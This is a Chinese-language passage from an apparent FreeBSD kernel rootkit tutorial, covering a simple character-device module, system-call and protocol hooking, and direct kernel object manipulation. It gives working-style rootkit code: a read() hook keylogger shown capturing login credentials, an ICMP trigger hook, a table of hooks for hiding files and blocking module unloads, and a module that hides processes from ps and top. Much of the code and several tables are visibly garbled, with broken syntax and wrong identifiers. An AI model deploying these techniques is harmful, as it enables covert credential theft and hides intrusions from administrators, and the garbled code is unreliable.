static struct cdevsw cd_example_cdevsw = {
    .d_version = D_VERSION,
    .d_open = open,
    .d_close = close,
    .d_read = read,
    .d_write = write,
    .d_name = "cd_example"
};
```

```
static char buf[512+1];
static size_t len;
```

```
int
open(struct cdev *dev, int flag, int otyp, struct thread *td)
{
    /* Initialize character buffer. */
    memset(&buf, '\0', 513);
    len = 0;

    return(0);
}
```

```
int
close(struct cdev *dev, int flag, int otyp, struct thread *td)
{
    return(0);
}
```

```
int
write(struct cdev *dev, struct uio *uio, int iflag)
{
    int error = 0;

/*
 * 取一个字符字符串并将其保存在 buf 中。
 * 注意：在缓冲区和跨越用户/内核空间边界的 I/O 
 * 向量之间传输数据的正确方法是使用
 * uiomove()，但这种方法更短。对于更多设备 I/O
 * 例程，请参阅 uio(9) 手页。
 */
    error = copystr(uio->uio_iov->uio_base, &buf, 512, &len);
    if (error != 0) {
        uprintf("Write to \"cd_example\" failed.\n");
    }

    return(error);
}

int
read(struct cdev *dev, struct uio *uio, int ioflag) {
    int error = 0;
    if (len <= 0)
        error = -1;
    } else {
        /* Return the saved character string to userland. */
        copystr(buf, uio->uio_iov->uio_base, len);
    }
    return(error);
}

/* Reference to the device in DEVFS. */
static struct cdev *sdev;

/* The function called at load/unload. */
static int
load(struct module *module, int cmd, void *arg)
{
    int error = 0;

    switch (cmd) {
    case MOD_DEV:
        sdev = make_dev(&cd_example_cdevsw, 0, UID_ROOT, GID_WHEEL, "cd example");
        uprintf("Character device loaded\n");
        break;

    case MOD_UNLOAD:
        destroy_dev(sdev);
        uprintf("Character device unloaded\n");
        break;

    default:
        error = EOPNOTSUPP;
        break;
    }

    return(error);
}
```

列表 1-5: cd_example.c 如下：首先，在开头，我们声明了 `cdevsw` 结构。接下来，填充了入口点：`open`, `close`, `read` 和 `write`。然后，我们实现了每一个入口点，按照上述顺序，最后在 `DEVFS` 中引用该设备。

## 1.6.5 测试设备

现在让我们来看看用户空间程序（列表 1-6），我们将用它与 `cd_example` 设备进行交互。该程序（基于 Vaidheeswaran 的 `testcdev.c`）按顺序调用每个入口点：`open`, `write`, `read`, `close`。

```
#include <stdio.h>
#include <fcntl.h>
#include <paths.h>
```

```
#include <string.h>
#include <sys/types.h>

#define CDEV_DEVICE "cd_example"
static char buf[512+1];

int
main(int argc, char *argv[]) {
    int kernel_fd;
    int len;

    if (argc != 2) {
        printf("Usage:%s\n", argv[0]);
        exit(0);
    }

    /* Open cdev example. */
    if ((kernel_fd = open("/dev/" CDEV_DEVICE, O_RDWR)) == -1) {
        perror("/dev/" CDEV_DEVICE);
        exit(1);
    }

    if ((len = strlen(argv[1]) + 1) > 512) {
        printf("ERROR: String too long\n");
        exit(0);
    }

    /* Write to cdev example. */
    if (write(kernel_fd, argv[1], len) == -1) {
        perror("write");
    } else {
        printf("Wrote%s to device /dev/" CDEV_DEVICE.\n",
        argv[1]);
    }

    /* Read from cdev example. */
    if (read(kernel_fd, buf, len) == -1) {
        perror("read");
    } else {
        printf("Read%s from device /dev/" CDEV_DEVICE.\n",
        buf);
    }

    /* Close cdev example. */
    if ((close(kernel_fd)) == -1) {
        perror("close");
        exit(1);
    }

    exit(0);
}
```

列表 1-6: interface.c

以下是加载字符设备模块并与其交互的结果：

```
$ sudo kldload ./cd_example.ko
Character device loaded.
$ ls -1 /dev/cd_example
CTW------1 root wheel 0, 89 Mar 26 00:32 /dev/cd_example
$ ./interface
Usage:
./interface <string>
$ sudo ./interface Hello, kernel!
Wrote "Hello, kernel!" to device /dev/cd_example.
Read "Hello, kernel!" from device /dev/cd_example.
```

## 1.7 链接器文件与模块

在结束本章之前，让我们简要查看一下 `kldstat(8)` 命令，它显示了任何动态链接到内核的文件的状态。

```
$ kldstat
Id Refs Size Name
1 4 0xc0400000 63070c kernel
2 16 0xc0a31000 568dc acpi.ko
3 1 0xc1e8b000 2000 hello.ko
```

在上面的列表中，加载了三个“模块”：内核（kernel）、ACPI 电源管理模块（acpi.ko）以及我们在 1.3 节中开发的“Hello, world!”模块（hello.ko）。

运行命令 `kldstat -v`（为了获得更详细的输出）将得到以下结果：

```
$ kldstat -v
Id Refs Size Name
1 4 0xc0400000 63070c kernel
Contains modules:
Id Name
18 xpt
19 probe
20 cam
...
3 1 0xc1e8b000 2000 hello.ko
Contains modules:
Id Name
367 hello
```

注意，kernel 包含了多个“子模块”（xpt, probe, cam）。这引出了本节的真正要点。前面的输出中，kernel 和 hello.ko 在技术上是链接器文件，而 xpt、probe、cam 和 hello 是真正的模块。这意味着 `kldload(8)` 和 `kunload(8)` 的参数实际上是链接器文件，而不是模块；对于加载到内核的每一个模块，都有一个相应的链接器文件。（这一点在我们之后讨论隐藏 KLD 时会用到。）

对于我们的目的来说，可以将链接器文件看作是一个或多个内核模块的引导者（或护送），引导它们进入内核空间。

## 1.8 结语

本章是对 FreeBSD 内核模块编程的一场旋风式之旅。我描述了我们将反复遇到的几种不同类型的 KLD，而你已经看到了许多小示例，这让你对本书的其余部分有了一个大致的感受。

还有两个点也值得提及。首先，位于 `/usr/src/sys/` 的内核源码树是对于新手 FreeBSD 内核黑客来说最好的参考资料和学习工具。如果你还没有查看过这个目录，请务必去看看；书中的许多代码都是从那里汲取的。

其次，考虑配置一台带有调试内核或内核模式调试器的 FreeBSD 机器；这在你编写自己的内核代码时非常有帮助。以下在线资源将对你有所帮助：

- *The FreeBSD Developer's Handbook*，特别是第 10 章，位于 http://www.freebsd.org/doc/en_US.ISO8859-1/books/developers-handbook。


- *Debugging Kernel Problems* 由 Greg Lehey 编写，位于 http://www.lemis.com/grog/Papers/Debug-tutorial/tutorial.pdf。

> 通常，从 `/sys/` 到 `/usr/src/sys/` 还有一个符号链接。

# 钩钩 (HOOKING)


我们将从调用钩（call hooking）或简单的钩子（hooking）开始讨论内核模式 rootkit，这无疑是最流行的 rootkit 技术。

**钩子（Hooking）** 是一种编程技术，它使用处理函数（称为 **hooks**）来修改控制流。一个新的钩子将其地址注册为特定函数的位置，这样当函数被调用时，运行的是钩子而不是原函数。通常，钩子会在某处调用原始函数，以保留原始行为。图 2-1 展示了子程序在安装调用钩子前后的控制流。

| 正常执行 | | 钩子执行 |
|---|---|---|
| Function A | -> | Function A | -> Function B |
| | | | Hook |

图 2-1：正常执行与钩子执行

如你所见，钩子用于扩展（或减少）子程序的功能。在 rootkit 设计中，钩子被用于更改操作系统应用程序编程接口（APIs）的结果，最常见的是涉及记录和报告。

现在，让我们开始滥用 KLD 接口吧。

## 2.1 钩住系统调用

回想第 1 章，系统调用是应用程序请求操作系统内核提供服务的入口点。通过钩住这些入口点，rootkit 可以更改内核返回给任何或所有用户空间进程的结果。事实上，钩住系统调用是非常有效的，以至于大多数（可能可用的） rootkit 都以某种方式使用了它。

在 FreeBSD 中，系统调用通过将其地址注册为目标系统调用内的系统调用函数来安装。通过钩住这些入口点，rootkit 可以更改内核返回给任何或所有用户空间进程的结果。事实上，钩住系统调用是非常有效的。

关于系统调用的更多信息，请见第 1.4 节。

```c
#include <sys/types.h>
#include <sys/param.h>
#include <sys/proc.h>
#include <sys/module.h>
#include <sys/sysent.h>
#include <sys/kernel.h>
#include <sys/system.h>
#include <sys/syscall.h>
#include <sys/proto.h>
```

```c
/*
* read system call hook.
* Logs all keystrokes from stdin.
* Note: 此钩子没有考虑特殊字符，例如
* Tab、Backspace 等。
*/
```

Listing 2-2: read_hook.c

## 2.2 钩住按键

现在让我们看一个更有趣（尽管仍然简单的）系统调用钩示例。按键记录是拦截和捕捉用户按键的简单行为。在 FreeBSD 中，这可以通过钩住 `read` 系统来实现。其 C 库定义如下：

```c
#include <sys/types.h>
#include <sys/io.h>
#include <unistd.h>
```

```c
size_t
read(int fd, void *buf, size_t nbytes);
```

`read` 系统调用从描述符 `fd` 读取 `nbytes` 字节的数据到缓冲区 `buf`。因此，为了捕捉用户的按键，只需要当 `fd` 指向标准输入（即文件描述符 0）时保存 `buf` 的内容即可。例如，查看列表 2-2：

```c
static int
read_hook(struct thread *td, void *syscall_args)
{
    struct read_args /* {
        int
        fd;
        void *buf;
        size_t nbyte;
    } *uap;
    uap = (struct read_args *)syscall_args;

    int error;
    char buf[1];
    int done;

    error = read(td, syscall_args);
    if (error || (!uap->nbyte) || (uap->nbyte > 1) || (uap->fd != 0))
        return(error);
    copyinst(uap->buf, buf, 1, &done);
    printf("%s\n", buf[0]);

    return(error);
}
```

/* 在加载/卸载时调用的函数 */

static int

load(struct module *module, int cmd, void *arg)

{

    int error = 0;

    switch (cmd) {

        case MOD_LOAD:

            /* 将 read 替换为 read_hook */

            sysent[SYS_read].sy_call = (sy_call_t *)read_hook;

            break;

        case MOD_UNLOAD:

            /* 恢复正常 */

            sysent[SYS_read].sy_call = (sy_call_t *)read;

            break;

        default:

            error = EOPSUP;

            break;

    }

    return(error);

}

static struct module read_hook_mod = {

    "read_hook",   /* 模块名称 */

    load,           /* 事件处理器 */

    NULL,           /* 额外数据 */

};

DECLARE_MODULE(read_hook, read_hook_mod, SI_DRIVERS, SI_MIDDLE);

```

列表 2-2：read_hook.c

在列表 2-2 中，函数 `read_hook` 首先调用来自 `fd` 的 `read`。如果该数据不是来自标准输入的按键（定义为一个字符或一个字节），则 `read_hook` 返回。否则，数据（即按键）被复制到本地缓冲区，从而将其“捕获”。

注意：为了节省空间并保持简单，`read_hook` 仅将捕获的按键转储到系统控制台。加载 `read_hook` 后的结果如下：

```
login:root

Password:

Last login: Mon 4 00:29 on tty2

root@alpha ~# dmesg | tail -n 32
```

可以看到，登录凭据——用户名和密码——已经被捕获了。此时，你应该能够钩入任何系统调用了。然而，仍然有一个问题：如果你不是内核专家，如何确定钩入哪些系统调用？答案是：使用内核追踪。

## 2.3 内核追踪

内核追踪是一种诊断调试技术，用于拦截和记录每个内核操作——即每个系统调用、I/O、信号处理以及代表特定进程的上下文切换。在 FreeBSD 中，这是通过 `ktrace(1)` 和 `kdump(1)` 工具实现的。例如：

```
$ ktrace ls

file1 file2 ktrace.out

$ kdump ktrace 0
```

显然，这不是真实的密码。

为了简洁起见，省略了任何与本文无关的输出。如前面的示例所示，`ktrace(1)` 启用特定进程的内核追踪日志，而 `kdump` 显示追踪数据。注意 `ktrace` 在执行期间发出的各种系统调用，如 `read`、`seek`、`fstat` 等。这意味着通过钩入这些调用之一可以影响操作或输出。核心点在于，当你不知道要钩入哪些调用时，只需执行内核追踪。

## 2.4 常见系统调用钩

为了确保全面，表 2-1 概述了一些常见的系统调用钩。

### 表 2-1：常见系统调用钩

| 系统调用 | 钩入目的 |
| :--- | :--- |
| read, readadv, pre | 记录输入 |
| write, writev, pwrite | 记录输出 |
| open | 隐藏文件内容 |
| unlink | 防止删除文件 |
| chdir | 防止目录遍历 |
| chmod | 防止修改模式 |
| chown | 防止更改所有者 |
| kill | 防止发送信号 |
| ioctl | 操作 ioctl 请求 |
| execve | 重定向文件执行 |
| rename | 防止重命名文件 |
| rmdir | 防止删除目录 |
| stat, lstat | 隐藏文件状态 |
| getdir | 隐藏文件 |
| truncate | 防止文件截断或扩展 |
| kldload | 防止加载模块 |
| kldunload | 防止卸载模块 |

现在让我们看看其他可以钩入的内核函数。

正如其名所义，通信协议是两个通信进程之间使用的规则和约定（例如 TCP/IP 协议族）。在 FreeBSD 中，通信协议通过协议切换表中的条目定义。通过修改这些条目，rootkit 可以更改任何通信端发送和接收的数据。为了更好地说明这种“攻击”，请稍题一下。

### 2.5.1 protosw 结构

每个协议切换表的上下文维护在 `protosw` 结构中，该结构在 `<osw.h>` 头文件中定义如下：

```c
struct protosw {
    short pr_type;              /* 套接字类型 */
    struct *pr_domain;          /* 域协议 */
    short pr_protocol;          /* 协议号 */
    short pr_flags;             /* 协议钩子 */
    pr_input_t *pr_input;       /* 输入到协议（从下方） */
    pr_output_t *pr_output;     /* 输出到协议（从上方） */
};
```

```c
pr_clininp *pr_clinp; /* 控制输入（从下方） */
pr_cloutput *pr_cloutput; /* 控制输出（从上方） */
/* 用户协议钩 */
pr_userreq_t *pr_userreq;
/* 实用程序钩 */
pr_init_t *pr_init;
pr_fasttime_t *pr_fasttime; /* 快速超时 (200ms) */
pr_slowtime_t *pr_slowtime; /* 慢超时 */
pr_input_t *pr_input; /* 输入（从下方） */
```

### 表 2-2：协议条目

| 条目 | 描述 |
| :--- | :--- |
| pr_init | 初始化 |
| pr_input | 向上传递数据 |
| pr_clinp | 向上传递控制 |
| pr_cloutput | 向下传递控制 |
| pr_userreq | 传递用户数据 |
| pr_fasttime | 传递快速超时 |
| pr_slowtime | 传递慢超时 |

### 2.5.2 inetsw 表

每个协议的 `protosw` 定义在 `<netinet/in_proto.c>` 中。这是该文件的片段：

```c
struct protosw inetsw[] = {
    pr_type = 0,
    pr_domain = &inetdomain,
    pr_protocol = IPPROTO_IP,
    pr_flags = PR_ADDR,
    pr_input = ip_input,
    pr_clinp = ip_clinp,
    pr_cloutput = ip_cloutput,
    pr_init = ip_init,
    pr_slowtime = ip_slowtime,
    pr_userreq = &ip_userreq,
    pr_type = SOCK_DGRAM,
    pr_domain = &inetdomain,
    pr_protocol = IPPROTO_UDP,
    pr_flags = PR_CONERERED|PR_IMPL|PR_WANTRC,
    pr_input = udp_input,
    pr_clinp = udp_clinp,
    pr_cloutput = udp_cloutput,
    pr_init = udp_init,
    pr_slowtime = udp_slowtime,
    pr_userreq = &udp_userreq,
};
```

```c
{
    pr_type = SOCK_STREAM,
    pr_domain = &inetdomain,
    pr_protocol = IPPROTO_TCP,
    pr_flags = PR_CONERERED|PR_IMPL|PR_WANTRC,
    pr_input = tcp_input,
    pr_clinp = tcp_clinp,
    pr_cloutput = tcp_cloutput,
    pr_init = tcp_init,
    pr_slowtime = tcp_slowtime,
    pr_userreq = &tcp_userreq,
};
```

```c
#define TRIGGER "Shiny."

extern struct protosw inetsw[];

pr_input_t icmp_input_hook;
```

```c
/* icmp_input hook. */
void
icmp_input_hook(struct mmbuf *m, int off)
{
  struct icmp *icp;
  int hlen = off;
  /* Locate the ICMP message within m. */
  m->m_data += hlen;
  /* Extract the ICMP message. */
  icp = mtod(m, struct icmp *);
  /* Restore m. */
  m->m_len -= hlen;
  m->m_data -= hlen;
  /* Is this the ICMP message we are looking for? */
  if (icp->icmp_type == ICMP_REDIRECT &&
      icp->icmp_code == ICMP_REDIRECT_TOSHOST &&
      strncmp(icp->icmp_data, TRIGGER, 6) == 0)
    printf("Let's be bad guys.\n");
  else
    icmp_input(m, off);
}
```

```c
/* The function called at load/unload. */
static int
load(struct module *module, int cmd, void *arg)
{
  int error = 0;
  switch (cmd) {
    case MOD_LOAD:
      /* Replace icmp_input with icmp_input_hook. */
      inetsw[ip_proto[IPPROTO_ICMP]].pr_input = icmp_input_hook;
      break;
    case MOD_UNLOAD:
      /* Change everything back to normal. */
      inetsw[ip_proto[IPPROTO_ICMP]].pr_input = icmp_input;
      break;
    default:
      error = EOPNOTSUPP;
      break;
  }
  return(error);
}
```

```c
static moduleledata_t icmp_input_hook_mod = {
    "icmp_input_hook",    /* module name */
    load,                   /* event handler */
    NULL                    /* extra data */
}

DECLARE_MODULE(icmp_input_hook, icmp_input_hook_mod, SI_SUB(network), SI_ORDER);
```


## 列表 2-3: `icmp_input_hook.c`

在列表 2-3 中，函数 `icmp_input_hook` 首先将 `hlen` 设置为接收到的 ICMP 消息的长度 (`off`)。确定 ICMP 消息在 `m` 中的位置；请记住，ICMP 消息是在一个数据报内传输的，该数据报由 `len` 进行 ② 合并。接下，从 `m` 中 ③ 提取出 ICMP 消息。随后，对 `m` 的更改会被 ④ 逆转，这样当 `m` 实际上被处理时，就就像什么都没有发生过一样。最后，如果 ICMP 消息正是我们要找的那个，则打印 ⑤ 调试消息；否则，调用 `icmp_input`。注意，在模块加载时，事件处理程序 ⑥ 将 `icmp_input` 注册为 `pr_input` 入口点。要移除钩子，只需 ⑦ 恢复原始的 `pr_input` 入口点即可（这在模块加载时发生）。

注意 `IPPROTO_ICMP` 的值定义为 `inetsw[]` 切换表中的偏移量。以下输出显示了在加载后接收服务类型和主机 ICMP 重定向消息的结果：

```bash
$ sudo kldload icmp_input_hook.ko
$ echo "Shiny." > payload
$ sudo nemesis -i 1 -P payload -D 127.0.1
ICMP Packet Injected
$ dmesg | tail -1
Let's be bad guys.
```

实际上，`icmp_input_hook` 存在一些缺陷；但为了演示通信钩子的目的，它已经足够了。如果你对修复 `icmp_input_hook` 以便在现实世界中使用感兴趣，你只需要添加两处内容。首先，在尝试定位它之前，确保该数据报确实包含 ICMP 消息。这可以通过检查 IP 头部中的长度字段来实现。确保 `m` 内部的数据实际上是可访问的。这可以通过调用 `m_pull` 实现。例如，关于如何实现这两点，请参见 `icmp_input` 函数。

## 2.7 结语

如你所见，调用钩子实际上是关于重定向函数指针，并且此时你不应该在在这方面遇到任何困难。请记住，通常有几个不同的入口点可以被挂钩以完成特定任务。例如，在 2.2 节中，我通过挂钩 `read` 系统调用创建了一个按键记录器；然而，这也可以通过挂钩终端行控制设备切换表中的 `lread` 入口点来实现。

出于教学目的，也仅仅是为了好玩，我鼓励你尝试挂钩 `termios` 切换表中的 `lread` 入口点。要这样做，你需要熟悉 `lines[]` 切换表，它实现在 `/sys/kern/tty_conf.c` 文件中，以及在 `<sys/linedisc.h>` 中定义的 `struct linisc`。

注意此钩子的工作比本章所示的要多一点。

> ④ 终端行控制设备 (`termios`) 本质上用于处理与终端的通信并描述其状态的数据结构。

# 3 直接内核对象操作

所有的操作系统都将内部记录数据存储在主内存中，通常是作为结构、队列。在进入此主题之前，让我们看看主内存中如何存储内核数据。

### 3.1 队列数据结构

通常，大量的信息作为队列数据结构（也称为列表）存储在内核中。一个例子是加载的文件；另一个是加载的模块。

头文件 `<sys/queue.h>` 定义了四种不同的队列数据结构：单链表、单链队列、双链队列。该文件还包含了许多声明和操作这些结构的宏。

以下五个宏是双链表进行 DKOM 的基础。

注意操作单链表、单链队列和双链队列的宏与下文所示相同。关于使用这些宏的详细信息，请参 `queue(3)` 手页。

#### 3.1.1 `LIST_HEAD` 宏

双链表由 `LIST_HEAD` 定义的结构引导。该结构包含一个指向第一个元素的指针。元素是双链的，因此可以移除任意元素而无需遍历列表。以下是 `LIST_HEAD` 的定义：

```c
#define LIST_HEAD(name, type)

struct name {

    struct type *lh; /* first element */

}
```

在这个定义中，`name` 是要定义的结构的名称，`type` 指定了要链接的元素的类型。随后可以声明列表头的指针为：

#### 3.1.2 `LIST_HEAD_INITIALIZER` 宏

双链表的头通过 `LIST_HEAD_INITIALIZER` 宏初始化。

```c
#define LIST_HEAD_INITIALIZER(head) \

    (head) = NULL
```

#### 3.1.3 `LIST_ENTRY` 宏

`LIST_ENTRY` 宏声明了连接双链表中元素的结构。

```c
#define LIST_ENTRY(type) \

struct {

    struct type *next; /* next element */\

    struct type **prev; /* address of previous element */\

}
```

该结构在插入、删除和遍历期间被引用。

#### 3.1.4 `LIST_FOREACH` 宏

双链表通过 `LIST_FOREACH` 宏进行遍历。

```c
#define LIST_FOREACH(var, head, field) \

for ((var) = LIST_FIRST(head)); \

    (var);\

    (var) = LIST_NEXT((var))) \
```

该宏遍历由 `head` 引用的列表，将每个元素赋值给 `var`。`field` 参数包含了用 `LIST_ENTRY` 宏声明的结构。

为了安全地操作内核队列数据结构——也就是说，为了确保线程同步——你的代码应该获取适当锁（即资源访问控制）。在我们的示例中，这将是一个互斥锁 (`mutex`) 或共享/斥锁 (`shared/exclusive lock`)。

### 3.2.1 `mtx_lock` 函数

互斥锁为一个或多个数据对象提供互斥，是线程同步的主要方法。内核线程通过调用 `mtx_lock` 函数获取互斥锁。

```c
#include <sys/param.h>
#include <sys/lock.h>
#include <sys/mutex.h>

void
mtx_lock(struct mtx *mutex);
```

如果另一个线程当前持有该互斥锁，调用者将睡眠，直到该互斥锁可用。

### 3.2.2 `mtx_unlock` 函数

通过调用 `mtx_unlock` 函数释放互斥锁。

```c
#include <sys/param.h>
#include <sys/lock.h>
#include <sys/mutex.h>

void
mtx_unlock(struct mtx *mutex);
```

> 如果有一个高优先级线程正在等待互斥锁，释放锁的线程可能会被抢占，允许高优先级线程获取互斥锁并运行。

- 注意：有关互斥锁的更多信息，请参见 `mutex(9)` 手册。

### 3.2.3 `sx_lock` 和 `sx_xlock` 函数

斥性锁（也称为 `sx` 锁）是更简单的读写锁，可以在跨睡眠持有。正如其名称所示，多个线程可以持有共享锁，但只有一个线程可以持有斥性锁。此外，如果一个线程持有斥性锁，其他任何线程都持有共享锁。

线程分别通过调用 `sx_lock` 或 `sx_xlock` 函数获取共享锁或斥性锁。

```c
#include <sys/param.h>
#include <sys/lock.h>
#include <sys/sx.h>

void
sx_lock(struct sx *sx);

void
sx_xlock(struct sx *sx);
```

### 3.2.4 `sx_unlock` 和 `sx_xunlock` 函数

要释放共享锁或斥性锁，分别调用 `sx_unlock` 或 `sx_xunlock` 函数。

```c
#include <sys/param.h>
#include <sys/lock.h>
#include <sys/sx.h>

void
sx_unlock(struct sx *sx);

void
sx_xunlock(struct sx *sx);
```

> 注意：有关共享/斥性锁的更多信息，请参见 `sx(9)` 手册。

## 3.3 隐藏正在运行的进程

现在，有了前面几节中的宏和函数，我将详细介绍如何使用 DKOM 隐藏一个运行中的进程。不过，我们需要一些关于进程管理的背景信息。

### 3.3.1 `proc` 结构

在 FreeBSD 中，每个进程的上下文在列表结构中维护，该结构定义在 `<sys/proc.h>` 头文件中。下面的列表描述了 `struct proc` 中的字段，为了隐藏一个运行中的进程，你需要理解这些字段。

> 注意：我试图尽量保持此列表简短，以便作为参考。你可以在第一次阅读时跳过此列表，在看到真实的 C 代码时再回来参考。

- `LIST_ENTRY(proc) p_list;`: 该字段包含与 `proc` 结构关联的链接指针，该结构存储在 `allproc` 或 `proc` 列表中（在 3.3.2 节讨论）。在插入、删除和遍历任一列表期间，都会引用此字段。

- `int p_flag;`: 这些是进程标志，例如 `P_WEXIT`、`P_EXEC` 等，设置在运行的进程上。所有标志都定义在 `<sys/proc.h>` 头文件中。

```c
enum { PRS_NEW = 0, PRS_NORMAL, PRS_ZOMBIE } p_state;
```

该字段代表当前进程状态：`PRS_NEW` 标识新诞生但未完全初始化的进程，`PRS_NORMAL` 标识“存活”的进程，`PRS_ZOMBIE` 标识僵尸进程。

```c
pid_t p_pid;
```

这是进程标识符 (PID)，是一个 32 位整数值。

```c
LIST_ENTRY(proc) p_hash;
```

该字段包含与 `proc` 结构关联的链接指针，该结构存储在 `pidhashbt` 中（在 3.4.2 节讨论）。在插入、删除和遍历 `pidhashbt` 期间，都会引用此字段。

```c
struct mtx p_mtx;
```

这是与 `proc` 结构关联的资源访问控制。头文件 `<sys/proc.h>` 定义了两个宏 `PROC_LOCK` 和 `PROC_UNLOCK`，以便获取和释放 mtx。

```c
#define PROC_LOCK(p)   mtx_lock(&(p)->p_mtx)
#define PROC_UNLOCK(p)  mtx_unlock(&(p)->p_mtx)
```

```c
struct vmspace *p_vmspace;
```

这是进程的虚拟内存状态，包括机器相关和机器无关的数据结构，以及统计信息。

```c
char p_comm[MAXCOMPLEN + 1];
```

这是执行进程使用的名称或命令。常量 `MAXCOMPLEN` 在 `<sys/param.h>` 头文件中定义如下：

```c
#define MAXCOMPLEN      19      /* 记录的最大命令名称 */
```

### 3.3.2 `allproc` 列表

FreeBSD 将其 `proc` 结构组织成两个列表。所有处于 `ZOMBIE` 状态的进程都位于 `proclist` 中；其余的位于 `allproc` 列表中。此列表被 `ps(1)`、`top(1)` 以及其他报告工具引用，以列出系统上运行的进程。因此，你可以通过简单地从 `allproc` 列表中移除 `proc` 结构来隐藏运行中的进程。

> 自然地，人们可能会认为通过从关联进程中移除 `proc` 结构会导致进程不再执行。过去，几位作者和黑客曾表示修改 `allproc` 太复杂了，因为它被用于进程调度和其他重要的系统任务。然而，由于现在进程是以线程粒度执行的，情况不再如此了。

`allproc` 列表定义在 `<sys/proc.h>` 头文件中如下：

```c
extern struct proclist allproc;      /* 所有进程的列表 */
```

注意 `allproc` 被声明为 `proclist` 结构，该结构在 `<sys/proc.h>` 头文件中定义如下：

```c
LIST_HEAD(proclist, proc);
```

通过这些列表，你可以看到 `allproc` 仅仅是一个内核队列数据结构——双向链表。

### 3.3.3 示例

列表 3-1 显示了一个系统调用，通过从 `allproc` 列表中移除其 `proc` 结构来隐藏进程。

```c
#include <sys/types.h>
#include <sys/param.h>
#include <sys/proc.h>
#include <sys/module.h>
#include <sys/sysent.h>
#include <sys/kernel.h>
#include <sys/queue.h>
#include <sys/lock.h>
#include <sys/sx.h>
#include <sys/mutex.h>
#include <string.h>
#include <unistd.h>

struct process_hiding_args {
    char *pcomm; /* 进程名称 */
};

/* 新系统调用的 sysent。 */
static struct sysent hiding_sysent = {
    1, /* 参数数量 */
    hiding /* 实现函数 */
};

/* sysent[] 中分配系统调用的偏移量。 */
static int offset = NO_SYALL;

/* 在加载/卸载时调用的函数。 */
static int
load(struct module *module, int cmd, void *arg) {
    int error = 0;
    switch (cmd) {
    case MOD_LOAD:
        printf("系统调用加载到偏移量 %d。\n", offset);
        break;
    case MOD_UNLOAD:
        printf("系统调用从偏移量 %d 卸载。\n", offset);
        break;
    default:
        error = EOPNOTSUPP;
        break;
    }
    return(error);
}

/* 隐藏进程的系统调用。 */
static int
hiding(struct thread *td, void *syscall_args) {
    struct process_hiding_args *uap;
    uap = (struct process_hiding_args *)syscall_args;
    struct proc *p;
    sx_lock(&allproc_lock);
    /* 遍历 allproc 列表。 */
    LIST_FOREACH(p, allproc, p_list) {
        PROC_LOCK(p);
        /* 我们想隐藏这个进程吗？ */
        if (!(p->p_vmspace || (p->p_flag & P_WEXIT))) {
            if (strncmp(p->p_comm, uap->pcomm, MAXCOMPLEN) == 0) {
                LIST_REMOVE(p, p_list);
            }
        }
        PROC_UNLOCK(p);
    }
    sx_unlock(&allproc_lock);
    return(0);
}

SYSCALL_MODULE(process_hiding, &offset, &hiding_sysent, load, NULL);
```

关于 `process_hiding` 的一个有趣细节是，在进行进程名称比较之前，我会检查每个进程的虚拟地址空间和进程标志。如果前者不存在，或者后者被设置为“正在退出”，则会跳过它。隐藏一个不会运行的进程有什么意义呢？

另一个值得提的细节是，在我从 `allproc` 列表中移除用户指定的 `proc` 结构体后，for 循环没有 `break` 语句。为了理解为什么，请考虑一个复制或派生（fork）了自身的进程，以便父子进程同时执行不同的代码段（这在网络服务器如 `httpd` 中是常见做法）。在这种情况下，请求运行进程列表将同时返回父进程和子进程，因为每个进程在 `allproc` 列表中都有自己独立的条目。因此，为了隐藏单个进程的所有实例，你需要遍历整个 `allproc`。

以下输出显示了 `process_hiding` 的运行效果：

```bash
$ sudo kldload ./process_hiding.ko
System call loaded at offset 20.
$ ps
PID TT STAT TIME COMMAND
530 v1 S 0:00.26 -bash (bash)
579 v1 R+ 0:00.02 ps
502 v2 I 0:00.42 -bash (bash)
529 v2 S+ 0:02.50 top
$ perl -e '$p_comm="top"; syscall(210,$p_comm);'
$ ps
PID TT STAT TIME COMMAND
530 v1 S 0:00.26 -bash (bash)
584 v1 R+ 0:00.02 ps
502 v2 I 0:00.42 -bash (bash)
```


# 隐藏运行进程的重做

注意看我是如何从 `ps(1)` 的输出中隐藏 `top(1)` 的。为了好玩，让我们从 `top(1)` 的视角来看，并以前后对比的形式显示。

## 之前

```
last pid: 0.00, 0.03, 0.04 up 00:19:18 03:46:

20 processes: 1 running, 19 sleeping

CPU states: 0.0% user, 0.0% nice, 0.3% interrupt, 14.1% idle, 85.5% idle

Mem: 6932K Active, 10M In, 14M Wired, 28K Cache, 10M Buf, 363M Free

Swap: 512M Total, 512M Free
```

| PID | USERNAME | THR | PRI | NICE | SIZE | RES | STATE | TIME | WCPU | COMMAND |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 529 | ghost | 1 | 96 | | 2304K | 1584K | | 0:03 | 0.00% | top |
| 502 | ghost | 1 | 8 | | 3276K | 2036K | | 0:00 | 0.00% | bash |
| 486 | root | 1 | 8 | | 1616K | 1280K | | 0:00 | 0.00% | login |
| 485 | root | 1 | 8 | | 1616K | 1316K | | 0:00 | 0.00% | login |
| 530 | ghost | 1 | 5 | | 3276K | 2164K | tiny | 0:00 | 0.00% | bash |
| 297 | root | 1 | 96 | | 1292K | 868K | | 0:00 | 0.00% | sysyslog |
| 408 | root | 1 | 96 | | 3412K | 2566K | | 0:00 | 0.00% | sendmail |
| 424 | root | 1 | 8 | | 1312K | 1032K | nansip | 0:00 | 0.00% | cron |
| 490 | 1 | 1 | 5 | | 126K | 928k | tty | 0:00 | 0.00% | getty |
| 489 | 1 | 1 | 5 | | 126K | 928k | tty | 0:00 | 0.00% | getty |
| 484 | 1 | 1 | 5 | | 126K | 928k | tty | 0:00 | 0.00% | getty |
| 487 | 1 | 1 | 5 | | 126K | 928k | tty | 0:00 | 0.00% | getty |
| 488 | 1 | 1 | 5 | | 126K | 928k | tty | 0:00 | 0.00% | getty |
| 491 | 1 | 1 | 5 | | 126K | 928k | tty | 0:00 | 0.00% | getty |
| 197 | root | 1 | 110 | | 1384K | 1036 | | select | 0:00 | |client |
| 557 | root | 1 | 99 | | 1380K | |1084k | select | |00000 | | inetd
| 441 | root | 1 | 20 | | 3300K | 2664k | pause | |00000 | | send | |

## 之后

| PID | USERNAME | THR | PRI | NICE | SIZE | RES | STATE | TIME | WCPU | COMMAND |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 502 | ghost | 1 | 8 | | 3276K | 2036K | wait | 0:00 | 0.00% | bash |
| 486 | root | 1 | 8 | | 1616K | 1280K | wait | 0:00 | 0.00% | login |
| 485 | ghost | 1 | 8 | | 1616K | 1316K | wait | 0:00 | 0.00% | login |
